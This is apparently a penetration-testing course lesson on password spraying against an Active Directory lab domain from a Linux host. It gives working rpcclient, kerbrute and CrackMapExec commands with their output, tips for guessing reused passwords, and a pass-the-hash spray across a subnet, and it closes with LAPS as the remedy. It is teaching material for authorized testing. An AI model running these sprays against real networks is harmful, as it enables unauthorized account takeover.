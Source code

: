 # Internal Password Spraying - from Linux

---

Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. The following sections will let us practice Password Spraying from Linux and Windows hosts. This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

---

## Internal Password Spraying from a Linux Host

Once we’ve created a wordlist using one of the methods shown in the previous section, it’s time to execute the attack. `Rpcclient` is an excellent option for performing this attack from Linux. An important consideration is that a valid login is not immediately apparent with `rpcclient`, with the response `Authority Name` indicating a successful login. We can filter out invalid login attempts by `grepping` for `Authority` in the response. The following Bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)) can be used to perform the attack.

#### Using a Bash one-liner for the Attack

Internal Password Spraying - from Linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Let's try this out against the target environment.

Internal Password Spraying - from Linux

```shell-session
swmpdnky@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

We can also use `Kerbrute` for the same attack as discussed previously.

#### Using Kerbrute for the Attack

Internal Password Spraying - from Linux

```shell-session
swmpdnky@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds
```

There are multiple other methods for performing password spraying from Linux. Another great option is using `CrackMapExec`. The ever-versatile tool accepts a text file of usernames to be run against a single password in a spraying attack. Here we grep for `+` to filter out logon failures and hone in on only valid login attempts to ensure we don't miss anything by scrolling through many lines of output.

#### Using CrackMapExec & Filtering Logon Failures

Internal Password Spraying - from Linux

```shell-session
swmpdnky@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting one (or more!) hits with our password spraying attack, we can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.

#### Validating the Credentials with CrackMapExec

Internal Password Spraying - from Linux

```shell-session
swmpdnky@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

---

## Local Administrator Password Reuse

Internal password spraying is not only possible with domain user accounts. If you obtain administrative access and the NTLM password hash or cleartext password for the local administrator account (or another privileged local account), this can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.

CrackMapExec is a handy tool for attempting this attack. It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

When working with local administrator accounts, one consideration is password re-use or common password formats across accounts. If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. Also, if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. The same principle may apply to domain accounts. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine. The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.

#### Local Admin Spraying with CrackMapExec

Internal Password Spraying - from Linux

```shell-session
swmpdnky@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

The output above shows that the credentials were valid as a local admin on `3` systems in the `172.16.5.0/23` subnet. We could then move to enumerate each system to see if we can find anything that will help further our access.

This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth. It is always worth looking for this issue during penetration tests, even if it is not part of our path to compromise the domain, as it is a common issue and should be highlighted for our clients. One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.